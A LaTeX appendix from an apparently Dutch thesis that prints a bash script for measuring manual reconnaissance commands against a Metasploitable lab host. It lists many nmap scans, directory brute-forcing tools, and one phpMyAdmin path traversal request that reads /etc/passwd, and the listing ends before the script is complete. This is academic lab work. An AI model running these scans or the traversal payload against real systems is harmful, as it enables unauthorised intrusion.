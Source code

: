 \chapter{}%
\label{app:recon-script}

\section{Reconnaissance bash script}
Hieronder wordt het bash-script weergegeven dat is gebruikt voor de betrouwbaarheid van ieder comando te berekeken van de manuele reconnaissance-methode, inclusief tijd- en CPU-metingen, zoals beschreven in het hoofdstuk ~\ref{ch:Proof of Concept} Proof of Concept.

\begin{lstlisting}[language=bash, basicstyle=\footnotesize\ttfamily, numbers=left, numberstyle=\tiny, breaklines=true, caption={Bash-script voor betroubaarheid}, label={lst:recon-script}]

#!/bin/bash

# Script om reconnaissance-commando's te testen op betroubaarheid met tijd- en CPU-metingen

OUTPUT_DIR="recon_results"
mkdir -p "$OUTPUT_DIR"

ERROR_LOG="$OUTPUT_DIR/error_log.txt"
touch "$ERROR_LOG"

TARGET="192.168.56.11"
TIMEOUT=400

declare -A COMMANDS=(
    ["Netwerk- en Hostontdekking"]="netdiscover -i eth0
fping -a -g 192.168.56.0/24
dig metasploitable.localdomain
dig @$TARGET version.bind txt chaos"

    ["Poort- en Service-analyse"]="nmap -sS -sV -O -T4 $TARGET
nmap -p- $TARGET
nmap -sT $TARGET
nmap -sU -p 53,69,161 $TARGET
nmap -sA $TARGET
wafw00f http://$TARGET/
nmap --script=http-open-proxy -p80 $TARGET
nmap -sV -p 3306,5432,8180 $TARGET --script=banner
nmap -sV -O --version-all $TARGET
telnet $TARGET 23
nmap -sT -p 21-25,80,445,3306 $TARGET --reason"

    ["Web Reconnaissance"]="whatweb http://$TARGET
whatweb --log-object @ http://$TARGET
curl -I http://$TARGET/
nmap --script=http-methods,http-enum,http-headers,http-title -p80 $TARGET
wget http://$TARGET/index.php -O index.html
gobuster dir -u http://$TARGET/ -w /usr/share/wordlists/dirb/common.txt
dirb http://$TARGET/
dirsearch -u http://$TARGET -e .php,.bak,.orig
ffuf -u http://$TARGET/FUZZ -w /usr/share/wordlists/dirb/common.txt -mc 200,204,301,302,307,401,403
feroxbuster -u http://$TARGET -x php,bak,old
curl -s http://$TARGET/phpMyAdmin/
curl -v \"http://$TARGET/phpMyAdmin/index.php?target=db_sql.php%253f/../../../../../../etc/passwd\"
curl http://$TARGET/mutillidae/
curl http://$TARGET/dvwa/login.php
curl http://$TARGET/twiki/bin/view
wget http://$TARGET/phpMyAdmin/readme -O readme.txt
joomscan --url http://$TARGET"


\end{lstlisting}
